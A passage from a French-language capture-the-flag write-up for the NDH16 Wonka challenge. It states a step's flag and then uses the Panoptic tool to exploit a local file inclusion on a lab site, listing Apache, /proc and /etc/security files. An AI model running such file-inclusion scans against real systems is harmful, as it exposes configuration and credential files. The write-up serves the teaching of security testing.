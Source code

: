 ![le flag](https://github.com/Sacriyana/CTF-Write-Up/raw/master/ndh16_wonkachallenge/flag2/flag.png)

Et voilà le flag de cette étape : `@llez_le$_BLEU$!!!` 

## Infiltrer Pramafil en compromettant son Active Directory (étape 3)

A partir de cette étape, nous devons infiltrer le réseau interne de pramacorp. Pour ce faire, il y a plusieurs étapes. La premiére sera de récupérer un maximum de droits sur le domaine pramafil.corp (flag 3) puis ensuite compromettre le sous-domaine dev.pramacorp.fr (flag 4) pour enfin attaquer le domaine maitre pramacorp.fr (notre cible final, flag 5).

Bon, un check des informations récupérées s'impose.  
On possède un moyen sur les deux domaines pour récupérer des informations.  
Le site du challenge nous indique que l'on doit récupérer le hash de l'adminstrateur:500 du domaine pramafil.corp 

### Récupération d'informations sur pramafil.com

Il est plus facile de commencer par pramafil.com du fait de la lfi qui est très facile d'exploitation.  
De plus, on sait qu'il y a deux comptes de développeurs grâce au passwd.  

### Une clé perdue, 10 de retrouvés.  

[Panoptic](https://github.com/lightos/Panoptic) va nous aider à récupérer des informations au travers de la LFI. Cet outil n'était pas nécessaire, car les fichiers découverts sont tous à des emplacements bien connus du monde Linux.

```
./panoptic.py --url http://pramafil.com/cgu/\?v\=2018

 .-',--.`-.
<_ | () | _>
  `-`=='-'

Panoptic v0.1-df35a6c (https://github.com/lightos/Panoptic/)

[i] Starting scan at: 17:06:49

[i] Checking original response...
[i] Checking invalid response...
[i] Done!
[i] Searching for files...
[i] Possible file(s) found!
[i] OS: *NIX
[?] Do you want to restrict further scans to '*NIX'? [Y/n] Y
[+] Found '/etc/apache2/apache2.conf' (*NIX/HTTP server/conf).
[+] Found '/etc/apache2/envvars' (*NIX/HTTP server/conf).
[+] Found '/etc/apache2/mods-available/autoindex.conf' (*NIX/HTTP server/conf).
[+] Found '/etc/apache2/mods-available/mime.conf' (*NIX/HTTP server/conf).
[+] Found '/etc/apache2/mods-available/setenvif.conf' (*NIX/HTTP server/conf).
[+] Found '/etc/apache2/mods-available/ssl.conf' (*NIX/HTTP server/conf).
[+] Found '/etc/apache2/mods-enabled/mime.conf' (*NIX/HTTP server/conf).
[+] Found '/etc/dhcp/dhclient.conf' (*NIX/Network/conf).
[+] Found '/proc/self/mounts' (*NIX/other).
[+] Found '/proc/self/status' (*NIX/other).
[+] Found '/proc/cpuinfo' (*NIX/other).
[+] Found '/proc/meminfo' (*NIX/other).
[+] Found '/etc/bash.bashrc' (*NIX/*NIX).
[+] Found '/etc/sysctl.conf' (*NIX/conf).
[+] Found '/etc/security/access.conf' (*NIX/conf).
[+] Found '/etc/security/group.conf' (*NIX/conf).
[+] Found '/etc/security/limits.conf' (*NIX/conf).
[+] Found '/etc/security/namespace.conf' (*NIX/conf).
```